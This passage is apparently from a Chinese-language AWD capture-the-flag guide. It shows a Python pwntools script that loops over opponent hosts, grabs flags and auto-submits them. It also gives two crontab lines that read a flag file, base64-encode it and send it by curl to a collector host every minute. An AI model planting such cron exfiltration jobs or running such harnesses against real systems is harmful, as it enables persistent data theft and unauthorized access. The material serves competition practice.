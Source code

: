 队伍一多要是还是手交那基本一轮还没交完就下一轮了。

示例

```python
from pwn import*
import requests
def submit(flag):	
	url = 'https://ctf.bugku.com/awd/submit.html?token=95e0ab88dcae793ac13ba2bfa839fd16&flag='+flag
	ct = requests.post(url)
	if ct.text.find('Flag')!=-1:
		print 'ok!!!!'

flags = []
def pwn(i):
	p = remote('192-168-1-'+str(i)+'.awd.bugku.cn',9999)
    ...
    ...
    ...
	flag = p.recv()
	flags.append(flag)
	submit(flag)
	print flag
	p.close()
	#p.interactive()
ip = [13, 16, 21, 25, 29, 30, 37, 56, 61, 62, 65, 69, 71, 74, 79, 89, 90, 94, 97, 101, 106, 110, 126, 135, 143, 144, 147, 148, 157, 165, 168, 169, 172, 175, 180, 182, 187, 192, 195, 196, 210, 212, 213, 217, 219, 223, 232, 234, 235, 241, 247]
ip.reverse()
for i in ip:
	try:
		pwn(i)
	except:
		pass
for i in flags:
	print i


```



## crontab定时任务



```bash
* * * * * FLAG=`cat /flag.txt | base64` && curl http://192.168.187.128/?flag=${FLAG}
* * * * * FLAG=`curl http://192.168.187.128/get_flag | base64` && curl http://192.168.187.128/?flag=${FLAG}
```



## 搅屎

